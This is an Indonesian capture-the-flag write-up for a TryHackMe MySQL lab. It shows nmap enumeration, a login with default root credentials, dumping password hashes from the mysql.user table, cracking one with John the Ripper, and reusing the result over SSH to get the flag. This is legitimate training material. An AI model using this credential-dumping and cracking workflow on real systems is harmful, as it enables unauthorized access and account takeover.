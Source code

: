 # Understanding msql

MySQL merupakan RDBMS (Relational Database Management System) yang berbasis pada SQL (Structured Query Language). RDBMS (Relational Database Management System) merupakan software yang digunakan untuk membuat dan memanage database berdasarkan pada relational model. Kata relational berarti data yang disimpan dalam dataset terorganisir dalam tabel atau beberapa tabel. Setiap tabel yang ada memiliki relasi dengan tabel lain berdasarkan '**primary_key**' atau '**key**' lain. MySQL menggunakan client-server model, yang mana digunakanlah bahasa SQL untuk saling berkomunikasi.

## How does MySQL work?

- MySQL membaut database untuk menyimpan dan memanipulasi data serta mendefinisikan hubungan antar tabel
- Client akan membuat requests dengan membuat statement atau command yang spesifik dengan SQL
- Server lalu akan merespon statement atau command tersebut dengan informasi apapun yang diminta melalui command.

# Enumerating

enumerate port dengan nmap seperti biasa

```shell
nmap -A -p- <IP target>
```

hasilnya seperti berikut

```shell
...
PORT     STATE    SERVICE      VERSION
22/tcp   open     ssh          OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 06:36:56:2f:f0:d4:a4:d2:ab:6a:43:3e:c0:f9:9b:2d
...
513/tcp  filtered login
1996/tcp filtered tr-rsrb-port
3306/tcp open     mysql        MySQL 5.7.29-0ubuntu0.18.04.1
...
```

dari hasil enumerating, kita dapatkan 4 port yang terbuka, dan 2 port yang penting dalam hal ini adalah `22` dan `3306`. Selain itu, dalam bacaan yang disediakan, kita diberi credential '**root:password**', yang mana dapat digunakan untuk login ke mysql. Kita dapat login ke mysql dengan cara

```shell
mysql -h 10.10.119.140 -u root -p
Enter password: password
```

untuk langkah selanjutnya, dari TryHackMe sendiri memberi cara untuk extract informasi menggunakan metasploit, namun karena kita sudah dapat username dan password, kita sebenarnya dapat langsung untuk extract serta explore dengan SQL, disini akan dijelaskan 2 cara yaitu dengan Metasploit dan langsung di MySQL.

## Metasploit

cek versi MySQL dengan cara cari payload `mysql_sql`, lalu gunakan `auxiliary/admin/mysql/mysql_sql`, dan konfigurasi yang perlu dikonfigurasi yaitu username, password, dan rhosts. selanjutnya run, maka akan menghasilkan output versi mysql dan OS yang digunakan.

ganti konfigurasi pada SQL dengan `set sql "show database"`, maka nanti akan keluar jumlah database yang ada.

```sql
----------------------
| Database           |
----------------------
| information_schema |
| mysql              |
| performance_schema |
| sys                |
----------------------
```

## MySQL command

gunakan `select version()` maka nanti akan keluar versi dari mysql.

gunakan `show databases;` untuk melihat isi dari database

```sql
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| sys                |
+--------------------+
```

# Exploiting MySQL

## Metasploit

## MySQL

dari command `show databases;` tadi, kita dapat langsung menggunakan database '**mysql**' karena 3 lainnya termasuk default, gunakan dengan cara `SELECT mysql;`. lalu selanjutnya kita tampilkan tabel yang ada di db tersebut dengan cara `show tables;`, hasilnya seperti berikut

```sql
+---------------------------+
| Tables_in_mysql           |
+---------------------------+
| columns_priv              |
| db                        |
| engine_cost               |
| ...                       |
| ...                       |
| time_zone_transition      |
| time_zone_transition_type |
| user                      |
+---------------------------+
```

dari tabel yang muncul, tentu paling menarik adalah '**user**'. maka kita dapat menampilkan apa saja isi dari tabel user dengan cara `SELECT * FROM user;`. Tentu hasilnya berantakan, kita dapat melihat beberapa kolom yang penting. kita coba untuk ambil User, password_expired, password_last_changed, dan password_lifetime dengan cara `SELECT User, password_expired, password_last_changed, password_lifetime From user;` hasilnya ternyata tidak sesuai ekspektasi, yaitu hanya informasi mengenai kapan password terakhir diubah dan hal lainnya namun tidak berisi informasi yang penting.

```sql
+------------------+------------------+-----------------------+-------------------+
| User             | password_expired | password_last_changed | password_lifetime |
+------------------+------------------+-----------------------+-------------------+
| root             | N                | 2020-04-23 10:13:41   |              NULL |
| mysql.session    | N                | 2020-04-23 10:13:44   |              NULL |
| mysql.sys        | N                | 2020-04-23 10:13:44   |              NULL |
| debian-sys-maint | N                | 2020-04-23 10:13:46   |              NULL |
| root             | N                | 2020-04-23 10:27:27   |              NULL |
| carl             | N                | 2020-04-23 12:05:26   |              NULL |
+------------------+------------------+-----------------------+-------------------+
```

kita coba ganti ke User dan authentication_string, dengan cara  `SELECT User, authentication_string From user;` dan hasilnya adalah

```sql
+------------------+-------------------------------------------+
| User             | authentication_string                     |
+------------------+-------------------------------------------+
| root             |                                           |
| mysql.session    | *THISISNOTAVALIDPASSWORDTHATCANBEUSEDHERE |
| mysql.sys        | *THISISNOTAVALIDPASSWORDTHATCANBEUSEDHERE |
| debian-sys-maint | *D9C95B328FE46FFAE1A55A2DE5719A8681B2F79E |
| root             | *2470C0C06DEE42FD1618BB99005ADCA2EC9D1E19 |
| carl             | *EA031893AA21444B170FC2162A56978B8CEECE18 |
+------------------+-------------------------------------------+
```

bravo! kita menemukan info penting! kita mendapatkan autentifikasi yang cukup penting dimana kita dapat credentials baru yaitu `carl:*EA031893AA21444B170FC2162A56978B8CEECE18`. kita dapat store info ini ke file.txt untuk selanjutnya kita crack autentication string tersebut dengan menggunakann JTR! lakukan `echo "carl:*EA031893AA21444B170FC2162A56978B8CEECE18" > file.txt` lalu crack dengan JTR dengan cara

```shell
john file.txt
```

tunggu proses selesai... dan kita dapat hasilnya

```shell
...
Proceeding with wordlist:/usr/share/john/password.lst
Proceeding with incremental:ASCII
doggie           (carl)
...
```

kita dapat credential baru dengan username dan password yaitu '**carl:doggie**'. kita dapat menggunakannya untuk coba login ke ssh service dengan cara

```shell
ssh carl@<IP target> -p 22

password: doggie
```

ternyata berhasil masuk! sellanjutnya kita `ls` dan kita menemukan file MySQL.txt, kita dapat `cat MySQL.txt` untuk melihat isinya, dan ternyata isinya adalah flag!